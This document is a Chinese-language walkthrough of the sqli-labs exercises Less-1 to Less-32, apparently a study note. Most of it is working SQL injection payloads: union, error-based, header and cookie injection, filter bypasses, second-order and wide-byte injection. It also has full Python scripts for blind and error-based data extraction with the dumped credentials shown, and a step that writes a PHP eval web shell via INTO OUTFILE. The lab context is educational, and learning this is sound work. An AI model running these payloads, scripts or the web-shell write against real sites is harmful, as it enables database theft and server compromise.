

在mysql中有一个系统数据库`information_schema`存储着所有的数据库的相关信息

查询数据库名

`select schema_name from information_schema.schemata`

查询数据表

`select table_name from information_schema.tables where table_schema='xxx'`

查询列

`select column_name from information_schema.columns where table_name='xxx'`

## Basic Challenges

### Less-1

传入`?id=1'`得到报错`''1'' LIMIT 0,1'`,说明原本的sql语句为`'$id' LIMIT 0,1`,但是此时`$id`多了一个`'`造成了`'`没有完全匹配,利用注释将后面多余的`'`去除

传入`?id=1'--%20`此时的sql语句变为`'1'-- LIMIT 0,1`此时后面的`LIMIT 0,1`已经被注释掉了,同时`'`已经完全匹配所以sql语句正确执行

使用`order by`进行排序,`?id=1' order by 4--%20`当传入4时报错`Unknown column '4' in 'order clause'`说明只有3列数据

利用`group_concat`列出所有数据库名

`?id=-1' UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata--%20`


列出表名`?id=-1' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--%20`


查询列`?id=-1' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--%20`


列出所有数据`?id=-1' UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users--%20`


### Less-2

传入`?id=1'`报错`'' LIMIT 0,1'`,传入`?id='1`报错`''1 LIMIT 0,1'`,推测sql语句为`$id LIMIT 0,1`(没有`'`)

爆破库名`?id=-1 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata--%20`

爆破表名`?id=-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--%20`

查询列`?id=-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--%20`

列出所有数据`?id=-1 UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users--%20`

### Less-3

传入`?id=1'`报错`''1'') LIMIT 0,1'`,推测sql语句为`('$id') LIMIT 0,1`

爆破库名`?id=-1') UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata--%20`

爆破表名`?id=-1') UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--%20`

查询列`?id=-1') UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--%20`

列出所有数据`?id=-1') UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users--%20`

### Less-4

传入`?id=1'`无回显,传入`?id-1"`报错`"1"") LIMIT 0,1`,推测sql语句为`("$id") LIMIT 0,1`

爆破库名`?id=-1") UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata--%20`

爆破表名`?id=-1") UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--%20`

查询列`?id=-1") UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--%20`

列出所有数据`?id=-1") UNION SELECT 1,(select group_concat(username)),(select group_concat(password)) from users--%20`

### Less-5

传入`?id=1'`报错`''1'' LIMIT 0,1'`,而传入`?id=1' or 1=1--%20`则会返回`You are in`,不返回查询结果因此这里可以进行布尔盲注

```python
#二分法爆破
import requests
import time

url = 'http://127.0.0.1/Less-5/'


def get_database_length():  # 长度为8
    for i in range(50):
        payload = "?id=-1' or length(database())=%d-- " % i
        r = requests.get(url + payload)
        if "You are in" in r.text:
            return i
        time.sleep(0.1)


def get_database_name(database_length):  # security
    for i in range(1, database_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr(database(),%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():  # users,uagents,emails,referers
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            return
        print(chr(mid), end="")
    print()


def get_column_name():  # id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(username) from users) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1' or ascii(substr((select binary group_concat(password) from users) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "You are in" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_username()
get_password()
```

```
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

也可以进行报错注入

1. 利用`updatexml`函数(该函数对输出的字符长度做了限制,其最长输出32位)

传入`?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e),1)--%20`

返回`XPATH syntax error: '~information_schema,m~'`


```python
import requests
import re

url = "http://127.0.0.1/Less-5/"


def get_database_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,20) from information_schema.schemata),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_table_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,20) from information_schema.tables where table_schema='security'),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_column_name():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,20) from information_schema.columns where table_name='users'),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_username():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from users),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_password():
    rule = r"'~(.+?)~'"
    text = ""
    for i in range(1, 100, 20):
        payload = "?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(password),%d,20) from users),0x7e),1)-- " % i
        r = requests.get(url + payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


print(get_database_name())
print(get_table_name())
print(get_column_name())
print(get_username())
print(get_password())
```

```
information_schema,mysql,security,person,performance_schema,challenges
users,uagents,emails,referers
id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

2. 利用`extractvalue`函数

传入`?id=1' and extractvalue(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e))--%20`

返回`XPATH syntax error: '~information_schema,m~'`


### Less-6

把Less-5的单引号改成双引号

### Less-7

传入`?id=1`,返回`You are in.... Use outfile......`提示使用导出数据到文件的方式来进行注入

传入`?id=1'`,返回`You have an error in your SQL syntax`,传入`?id=1' or 1=1--%20`,仍然返回`You have an error in your SQL syntax`

测试得出的正确闭合方式为`?id=1')) or 1=1--%20`

1. 使用Less-5的二分法爆破

2. 利用outfile将查询结果写入文件,同时可以写shell (此处需要对mysql进行配置)

`docker exec -it xxx bash`进入容器

`mysql -e "show global variables like 'secure_file_priv';"`检查`secure-file-priv`当前的值是否为空(不是`NULL`)

```
root@2fef8c08e970:/# mysql -e "show global variables like 'secure_file_priv';"
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

同时在`/var/www/html`添加可写权限

传入`?id=1')) union select 1,2,'<?php eval($_POST[_]);?>' into outfile "/var/www/html/shell.php" --%20`


### Less-8

传入`?id=1'`无回显,传入`?id=1' or 1=1--%20`回显`You are in...........`

脚本同Less-5

### Less-9

无论传入什么都是返回`You are in...........`,根据提示闭合符号为`'`并'使用延时盲注

```python
import requests
import time

url = "http://127.0.0.1/Less-9/"


def get_database_length():
    for i in range(50):
        payload = "?id=1' and if(length(database())=%d,sleep(5),1)-- " % i
        try:
            requests.get(url + payload, timeout=1)
        except Exception:
            return i
        time.sleep(0.1)


def get_database_name(database_length):
    for i in range(1, database_length + 1):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr(database(),%d,1))>%d,sleep(5),1)-- " % (i, mid)
            try:
                requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,%d,1))>%d,sleep(5),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_column_name():  # id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,%d,1))>%d,sleep(5),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(username) from users) ,%d,1))>%d,sleep(5),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=1' and if(ascii(substr((select binary group_concat(password) from users),%d,1))>%d,sleep(5),1)-- " % (i, mid)
            try:
                r = requests.get(url + payload, timeout=1)
            except Exception:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_database_name(get_database_length())
get_table_name()
get_column_name()
get_username()
get_password()
```

### Less-10

将Less-9的单引号改成双引号

### Less-11

POST传参`uname=admin'&passwd=asdf`

返回`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf' LIMIT 0,1' at line 1`

推测其闭合方式为`'$uname' and '$passwd'`

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysqli_query($con, $sql);
$row=mysqli_fetch_array($result, MYSQLI_BOTH);
```

POST传参`1' or 1=1;#`

构成查询语句`SELECT username, password FROM users WHERE username='1' or 1=1;#' and password='123' LIMIT 0,1`


`mysqli_fetch_array`限制返回的行数

传入`uname=1' or 1=1 order by 3#&passwd=123`得到`Unknown column '3' in 'order clause'`可知一共两列

传入`uname=1' and 1=1 union select database(),1#&passwd=123`得到`Your Login name:security`

> 注意这里传入的是`and`,如果仍然传入`or`会返回`Your Login name:Dumb`



传入`uname=1' and 1=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#&passwd=123`

返回`Your Password:users,uagents,emails,referers`

传入`uname=1' and 1=1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#&passwd=123`

返回`Your Password:id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

传入`uname=1' and 1=1 union select 1,group_concat(username) from users#&passwd=123`

返回`Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4`

传入`uname=1' and 1=1 union select 1,group_concat(password) from users#&passwd=123`

返回`Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4`

### Less-12

把Less-11的单引号换成`")`

### Less-13

传入`uname=1')&passwd=123`

返回`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') and password=('123') LIMIT 0,1' at line 1`

传入`uname=1') or 1=1#&passwd=123`返回的`Content-Length`为`1493`


传入`uname=1') or 1=2#&passwd=123`返回的`Content-Length`为`1454`


由此可以进行布尔盲注

```python
import requests
import time

url = "http://127.0.0.1/Less-13/"


# len(r.text) correct 1493 error 1454
def get_database_length():
    for i in range(50):
        payload = {"uname": "1') or length(database())=%d#" % i, "passwd": "123", "submit": "submit"}
        r = requests.post(url=url, data=payload)
        if len(r.text) == 1493:
            return i
        time.sleep(0.1)


def get_database_name(database_length):
    for i in range(1, database_length + 1):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr(database(),%d,1))>%d#" % (i, mid), "passwd": "123", "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        print(chr(mid), end="")
    print()


def get_table_name():
    for i in range(1, 50):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {
                "uname": "1') or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))>%d#" % (i, mid),
                "passwd": "123",
                "submit": "submit"
            }
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_column_name():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {
                "uname": "1') or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),%d,1))>%d#" % (i, mid),
                "passwd": "123",
                "submit": "submit"
            }
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_username():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(username) from users),%d,1))>%d#" % (i, mid), "passwd": "123", "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


def get_password():
    for i in range(1, 100):
        low = 31
        high = 127
        mid = (low + high) // 2
        while low < high:
            payload = {"uname": "1') or ascii(substr((select group_concat(password) from users),%d,1))>%d#" % (i, mid), "passwd": "123", "submit": "submit"}
            r = requests.post(url=url, data=payload)
            if len(r.text) == 1493:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            print()
            return
        print(chr(mid), end="")


get_database_name(get_database_length())
get_table_name()
get_column_name()
get_username()
get_password()
```

### Less-14

把Less-13的单引号换成双引号

### Less-15

对传入的参数不进行错误回显,传入`uname=1' or 1=1#&passwd=1`得到`Content-Length`为`1492`并提示登录成功

传入`uname=1' or 1=2#&passwd=1`得到`Content-Length`为`1446`并提示登录失败

可知闭合方式为`'`,脚本同Less-13

### Less-16

把Less-15的单引号换成`")`

### Less-17

传入`uname=admin&passwd=1'`返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1`

因此可以使用报错注入

提示: `You can't specify target table 'users' for update in FROM clause`不能select出表中某些值,再update这个表
解决方法: 再套一层循环,并对自循环的结果赋予别名

```python
import requests
import time
import re

url = "http://127.0.0.1/Less-17/"
rule = r"'~(.+?)~'"

def get_database_name():
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,20) from information_schema.schemata),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_table_name():
    text = ""
    for i in range(1, 100, 20):
        payload = {
            "uname": "admin",
            "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,20) from information_schema.tables where table_schema='security'),0x7e),1)#" % i,
            "submit": "Submit"
        }
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_column_name():
    text = ""
    for i in range(1, 100, 20):
        payload = {
            "uname": "admin",
            "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,20) from information_schema.columns where table_name='users'),0x7e),1)#" % i,
            "submit": "Submit"
        }
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_username():
    text = ""
    for i in range(1, 100, 20):
        #err_payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from users),0x7e),1)#" % i, "submit": "Submit"}
        #You can't specify target table 'users' for update in FROM clause
        #err_payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from (select username from users)),0x7e),1)#" % i, "submit": "Submit"}
        #Every derived table must have its own alias
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(username),%d,20) from (select username from users)abc),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


def get_password():
    text = ""
    for i in range(1, 100, 20):
        payload = {"uname": "admin", "passwd": "1' and updatexml(1,concat(0x7e,(select substr(group_concat(password),%d,20) from (select password from users)abc),0x7e),1)#" % i, "submit": "Submit"}
        r = requests.post(url=url, data=payload)
        tmp = re.findall(rule, r.text)
        if tmp:
            text += tmp[0]
    return text


print(get_database_name())
print(get_table_name())
print(get_column_name())
print(get_username())
print(get_password())
```

### Less-18

登录回显发现uagent

在header中设置`User-Agent: '`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '192.168.8.1', 'admin')' at line 1`

推测对uagent进行了保存,保存方式为`value('$uagent','$ip','$uname')`

设置header`User-Agent: ' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1`从而构成闭合

构成的sql语句为

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1', '192.168.8.1', 'admin')
```

后面的注入与报错注入类似

### Less-19

登录回显发现referer

在header中设置`Referer: '`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '192.168.8.1')' at line 1`

推测对uagent进行了保存,保存方式为`value('$referer','$ip')`

设置header`Referer: ' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1`从而构成闭合

构成的sql语句为

```
INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('' and updatexml(1,concat(0x7e,(length(database())),0x7e),1) and '1'='1', '192.168.8.1')
```

后面的注入与报错注入类似

### Less-20

登录后返回

```
YOUR USER AGENT IS : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
YOUR IP ADDRESS IS : 192.168.8.1
DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
YOUR COOKIE : uname = admin and expires: Sat 08 May 2021 - 13:56:57
Your Login name:admin
Your Password:admin
Your ID:8
```

在header中设置`Cookie: uname='asdf`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf' LIMIT 0,1' at line 1`

对cookie中的uname进行了查询处理

设置header`Cookie: uname=' and updatexml(1,concat(0x7e,(length(database())),0x7e),1)#`

后面的注入与报错注入类似

### Less-21

登录后返回

```
YOUR USER AGENT IS : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
YOUR IP ADDRESS IS : 192.168.8.1
DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
YOUR COOKIE : uname = YWRtaW4= and expires: Sat 08 May 2021 - 14:09:25
Your Login name:admin
Your Password:admin
Your ID:8
```

可以看到uname被base64转码

在header中设置`Cookie: uname=J2FzZGY=`回显`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'asdf') LIMIT 0,1' at line 1`

可知uname的查询方式为`('$uname')`

对cookie中的uname进行了查询处理

设置header`Cookie: uname=JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChsZW5ndGgoZGF0YWJhc2UoKSkpLDB4N2UpLDEpIw==`

后面的注入与报错注入类似

### Less-22

与Less-21类似,把闭合方式换成`"`

## Advanced Injections

### Less-23

传入`?id='`报错,说明闭合方式为`'`,传入`?id=-1' or 1=1-- `,发现`-- `并没有生效,推测对注释符进行了过滤

传入`?id=1' order by 4,'1`,报错`Unknown column '4' in 'order clause'`说明一共有3列

> 注意要有`'1`来对最后的`'`进行闭合

查表名`?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),'1`

查列名`?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),'1`

查用户名`?id=-1' union select 1,(select group_concat(username) from users),'1`,查密码同理

也可以用报错注入`?id=1' or updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e),1) or '1'='1`

### Less-24

>题目提示存在二次注入

注册用户名`test`,密码`test`,登录进入后发现存在密码修改选项,结合题目提示,猜测其应该是通过构造特殊的用户名达成二次注入,从而在密码修改处修改其他用户的密码

推测修改密码处的sql语句为`update users set password='$password' where username='$username'...`

假设注册一个新的用户名为`test#'`,其在修改密码时构成了sql语句`update users set password='xxx' where username='test'#'...`

从而成功修改用户`test`的密码

- 猜测验证

1. 注册用户`test`


2. 注册用户`test#'`


3. 对用户`test#'`的密码进行修改


- 源码分析

在`login_create.php`中

```php
$username=mysql_escape_string($_POST['username']) ;
$pass=mysql_escape_string($_POST['password']);
$re_pass=mysql_escape_string($_POST['re_password']);
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
```

在`login.php`中

```php
function sqllogin(){
    $username = mysql_real_escape_string($_POST["login_user"]);
    $password = mysql_real_escape_string($_POST["login_password"]);
    $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
    $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
    $row = mysql_fetch_row($res);
    if ($row[1]) {
		return $row[1];
    } else {
    	return 0;
    }
}
$login = sqllogin();
if (!$login== 0) 
{
	$_SESSION["username"] = $login;
	setcookie("Auth", 1, time()+3600);
	header('Location: logged-in.php');
} 
```

在`pass_change.php`中

```php
$username=$_SESSION["username"];
$curr_pass=mysql_real_escape_string($_POST['current_password']);
$pass=mysql_real_escape_string($_POST['password']);
$re_pass=mysql_real_escape_string($_POST['re_password']);
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

可以得知`$_SESSION["username"]`来源于数据库的查询结果,并没有经过转义处理,因此通过构造特殊的用户名即可达成二次注入

### Less-25

>`and`和`or`被过滤

传入`?id=-1' union select 1,2,'3`成功闭合

传入`?id=-1' union select 1,(select group_concat(username) from users),'3`得到用户名

但是`password`中存在`or`被过滤

传入`?id=-1' union select 1,(select group_concat(password) from users),'3`,返回`-1' union select 1,(select group_concat(passwd) from users),'3`

推测存在关键词替换进而推测可能存在双写绕过

传入`?id=-1' oorr 1=1--%20`正常回显,返回结果为`-1' or 1=1--`,说明存在双写绕过

传入`?id=-1' union select 1,(select group_concat(passwoorrd) from users),'3`得到密码

### Less-25a

与Less-25但不用进行闭合

传入`?id=-1 union select 1,(select group_concat(username) from users),3`得到用户名

传入`?id=-1 union select 1,(select group_concat(passwoorrd) from users),3`得到密码

### Less-26

传入`?id=-1////oorr****+++---******1=1`返回`1or1=1`

注释符被过滤,可以使用`%a0`代替

传入`?id=0'%a0oorr%a0'1'='1`正常回显,返回`0'�or�'1'='1`

传入`?id=0'%a0union%a0select%a01,(select%a0group_concat(username)%a0from%a0users),'3`得到用户名

传入`?id=0'%a0union%a0select%a01,(select%a0group_concat(passwoorrd)%a0from%a0users),'3`得到密码

### Less-26a

闭合方式改为`')`

传入`?id=0')%a0oorr%a0'1'=('1`正常回显,返回`0'�or�'1'='1`

传入`?id=0')%a0union%a0select%a01,(select%a0group_concat(username)%a0from%a0users),('3`得到用户名

传入`?id=0')%a0union%a0select%a01,(select%a0group_concat(passwoorrd)%a0from%a0users),('3`得到密码

### Less-27

`union`被过滤,使用双写绕过`ununionion`

`select`被过滤,使用双写+大写绕过`selSelectect`

传入`?id=0'%a0or%a0'1'='1`正常回显,返回`0'�or�'1'='1`

传入`?id=0'%a0ununionion%a0seSelectlect%a01,(seSelectlect%a0group_concat(username)%a0from%a0users),'3`得到用户名

传入`?id=0'%a0ununionion%a0seSelectlect%a01,(seSelectlect%a0group_concat(password)%a0from%a0users),'3`得到密码

### Less-27a

闭合方式改为`"`

### Less-28

闭合方式为`')`仅对注释符进行过滤

传入`?id=0')%a0union%a0select%a01,(select%a0group_concat(username)%a0from%a0users),('3`得到用户名

传入`?id=0')%a0union%a0select%a01,(select%a0group_concat(password)%a0from%a0users),('3`得到密码

### Less-28a

同上

### Less-29

传入`?id=-1'/**/union/**/select/**/1,(select/**/group_concat(username)/**/from/**/users),'3`得到用户名

传入`?id=-1'/**/union/**/select/**/1,(select/**/group_concat(password)/**/from/**/users),'3`得到密码

### Less-30

将闭合方式更换为`"`

### Less-31

将闭合方式更换为`")`

### Less-32

题目中对`' " \`进行了转义处理(`addslashes`),转义为`\' \" \\`,使用宽字节注入进行绕过

mysql在使用GBK编码时,会认为两个字符为一个汉字,例如`%c4%e3`就是一个汉字(前一个ASCII码要大于128)

假设传入`?id=%df'`,此时`'`被转义为`\'`,因此最终要执行sql查询的的参数为`%df\'`而mysql将`%df\`理解为一个汉字,从而让`'`逃逸出来

